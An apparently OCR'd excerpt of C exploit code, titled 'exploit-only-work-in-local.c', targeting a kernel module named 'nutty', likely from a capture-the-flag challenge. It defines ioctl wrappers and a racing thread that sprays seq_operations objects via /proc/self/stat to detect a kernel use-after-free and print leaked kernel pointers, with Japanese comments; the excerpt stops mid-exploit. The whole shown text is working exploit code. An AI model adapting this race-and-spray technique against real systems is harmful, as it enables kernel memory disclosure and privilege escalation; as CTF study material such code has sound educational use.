 ```exploit-only-work-in-local.c

int _delete(int fd, uint idx){
  //printf("[+] delete: %x\n", idx);
  assert(fd > 0);
  struct req myreq = {
    .idx = idx,
  };
  return ioctl(fd, NUT_DELETE, &myreq);
}

int _append(int fd, uint idx, uint size, uint csize, char *data){
  //printf("[+] append: %x, %x %x, %p\n", idx, size, csize, data);
  assert(fd > 0);
  assert(0<=size && size<0x400);
  assert(csize > 0);
  struct req myreq = {
    .size = size,
    .content_length = csize,
    .contents = data,
    .idx = idx
  };
  return ioctl(fd, NUT_APPEND, &myreq);
}
/** (END nutty) **/


int leaked = -1;
ulong delete_count = 0;
ulong append_count = 0;
uint target_idx = 0;
ulong current_cred;

static void* shower(void *arg){
  char rbuf[0x200];
  memset(rbuf, 0, 0x200);
  int result;
  int tmpfd;
  ulong shower_counter = 0;
  while(leaked == -1){
    // kUAFできていた場合に備えてseq_operationsを確保
    tmpfd = open("/proc/self/stat", O_RDONLY);
    result = _show(nutfd, 0, rbuf);
    if(result < 0){ // idx0が存在しない
      close(tmpfd);
      continue;
    }
    // idx0が入れたはずの値じゃなければkUAF成功 
    if(((ulong*)rbuf)[0] != 0x4141414141414141){
      leaked = 1;
      puts("[!] LEAKED!");
      for(int ix=0; ix!=4;++ix){
        printf("[!] 0x%lx\n", ((ulong*)rbuf)[ix]);
      }
      break;
    }
    // seq_operations解放(やらないとmemory outof memory)
    close(tmpfd);
    if(shower_counter % 0x1000 == 0){
      printf("[-] shower: 0x%lx, 0x%lx\n", shower_counter, ((ulong*)rbuf)[0]);
    }
    ++shower_counter;
  }
  puts("[+] shower returning...");
```